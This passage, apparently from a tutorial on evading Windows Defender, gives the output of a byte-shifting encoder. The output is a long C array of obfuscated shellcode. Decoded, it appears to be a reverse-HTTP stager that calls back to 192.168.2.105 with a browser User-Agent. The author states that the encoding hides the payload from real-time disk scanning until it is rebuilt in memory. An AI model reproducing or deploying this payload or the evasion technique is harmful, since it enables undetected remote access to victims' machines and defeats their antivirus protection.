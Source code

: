 ```c
  printf("\";\n\n");

  return 0;
}


```

Upon execution, the script produces the following result for simple copying and pasting:

```
$ ./byteShift

unsigned char array[] = "\xfd\x49\x84\xe5\xf1\xe9\xc9\x1\x1\x1\x42\x52\x42\x51\x53\x52\x57\x49\x32\xd3\x66\x49\x8c\x53\x61\x49\x8c\x53\x19\x49\x8c\x53\x21\x49\x8c\x73\x51\x49\x10\xb8\x4b\x4b\x4e\x32\xca\x49\x32\xc1\xad\x3d\x62\x7d\x3\x2d\x21\x42\xc2\xca\xe\x42\x2\xc2\xe3\xee\x53\x42\x52\x49\x8c\x53\x21\x8c\x43\x3d\x49\x2\xd1\x67\x82\x79\x19\xc\x3\x76\x73\x8c\x81\x89\x1\x1\x1\x49\x86\xc1\x75\x68\x49\x2\xd1\x51\x8c\x49\x19\x45\x8c\x41\x21\x4a\x2\xd1\xe4\x57\x49\x0\xca\x42\x8c\x35\x89\x49\x2\xd7\x4e\x32\xca\x49\x32\xc1\xad\x42\xc2\xca\xe\x42\x2\xc2\x39\xe1\x76\xf2\x4d\x4\x4d\x25\x9\x46\x3a\xd2\x76\xd9\x59\x45\x8c\x41\x25\x4a\x2\xd1\x67\x42\x8c\xd\x49\x45\x8c\x41\x1d\x4a\x2\xd1\x42\x8c\x5\x89\x49\x2\xd1\x42\x59\x42\x59\x5f\x5a\x5b\x42\x59\x42\x5a\x42\x5b\x49\x84\xed\x21\x42\x53\x0\xe1\x59\x42\x5a\x5b\x49\x8c\x13\xea\x50\x0\x0\x0\x5e\x6b\x1\x4a\xbf\x78\x6a\x6f\x6a\x6f\x66\x75\x1\x42\x57\x4a\x8a\xe7\x4d\x8a\xf2\x42\xbb\x4d\x78\x27\x8\x0\xd6\x49\x32\xca\x49\x32\xd3\x4e\x32\xc1\x4e\x32\xca\x42\x51\x42\x51\x42\xbb\x3b\x57\x7a\xa8\x0\xd6\xec\x74\x5b\x49\x8a\xc2\x42\xb9\x91\x20\x1\x1\x4e\x32\xca\x42\x52\x42\x52\x6b\x4\x42\x52\x42\xbb\x58\x8a\xa0\xc7\x0\xd6\xec\x5a\x5c\x49\x8a\xc2\x49\x32\xd3\x4a\x8a\xd9\x4e\x32\xca\x53\x69\x1\x3\x41\x85\x53\x53\x42\xbb\xec\x56\x2f\x3c\x0\xd6\x49\x8a\xc7\x49\x84\xc4\x51\x6b\xb\x60\x49\x8a\xf2\x49\x8a\xdb\x4a\xc8\xc1\x0\x0\x0\x0\x4e\x32\xca\x53\x53\x42\xbb\x2e\x7\x19\x7c\x0\xd6\x86\xc1\x10\x86\x9e\x2\x1\x1\x49\x0\xd0\x10\x85\x8d\x2\x1\x1\xec\xd4\xea\xe5\x2\x1\x1\xe9\xa3\x0\x0\x0\x30\x56\x6f\x72\x76\x66\x76\x66\x30\x77\x32\x31\x2f\x31\x36\x30\x5b\x31\x52\x5b\x3a\x5b\x59\x46\x59\x48\x46\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\x64\x64\x66\x71\x75\x3b\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x6b\x74\x70\x6f\x2d\x21\x75\x66\x79\x75\x30\x69\x75\x6e\x6d\x2d\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x79\x69\x75\x6e\x6d\x2c\x79\x6e\x6d\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x4d\x62\x6f\x68\x76\x62\x68\x66\x3b\x21\x74\x72\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x46\x6f\x64\x70\x65\x6a\x6f\x68\x3b\x21\x68\x7b\x6a\x71\x2d\x21\x63\x73\xe\xb\x56\x74\x66\x73\x2e\x42\x68\x66\x6f\x75\x3b\x21\x4e\x70\x7b\x6a\x6d\x6d\x62\x30\x36\x2f\x31\x21\x29\x58\x6a\x6f\x65\x70\x78\x74\x21\x4f\x55\x21\x32\x31\x2f\x31\x3c\x21\x58\x6a\x6f\x37\x35\x3c\x21\x79\x37\x35\x2a\x21\x42\x71\x71\x6d\x66\x58\x66\x63\x4c\x6a\x75\x30\x36\x34\x38\x2f\x34\x37\x21\x29\x4c\x49\x55\x4e\x4d\x2d\x21\x6d\x6a\x6c\x66\x21\x48\x66\x64\x6c\x70\x2a\x21\x44\x69\x73\x70\x6e\x66\x30\x37\x33\x2f\x31\x2f\x34\x33\x31\x33\x2f\x3a\x35\x21\x54\x62\x67\x62\x73\x6a\x30\x36\x34\x38\x2f\x34\x37\xe\xb\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\xbf\xf1\xb6\xa3\x57\x0\xd6\x49\x32\xca\xbb\x1\x1\x41\x1\x42\xb9\x1\x11\x1\x1\x42\xba\x41\x1\x1\x1\x42\xbb\x59\xa5\x54\xe6\x0\xd6\x49\x94\x54\x54\x49\x8a\xe8\x49\x8a\xf2\x49\x8a\xdb\x42\xb9\x1\x21\x1\x1\x4a\x8a\xfa\x42\xbb\x13\x97\x8a\xe3\x0\xd6\x49\x84\xc5\x21\x86\xc1\x75\xb7\x67\x8c\x8\x49\x2\xc4\x86\xc1\x76\xd8\x59\x59\x59\x49\x6\xa2\x4\x1\x1\x51\xc4\xe9\xa0\xfe\x0\x0\x32\x3a\x33\x2f\x32\x37\x39\x2f\x33\x2f\x32\x31\x36\x1\x1\x1\x1\x1\x1";

$
```

And, as I expected, Windows Defender no longer detected the shellcode, as it isn't shellcode at all anymore, but a garbage string... That is, before it is reconstructed in memory away from the prying eyes of the real-time disk scanning of Windows Defender.
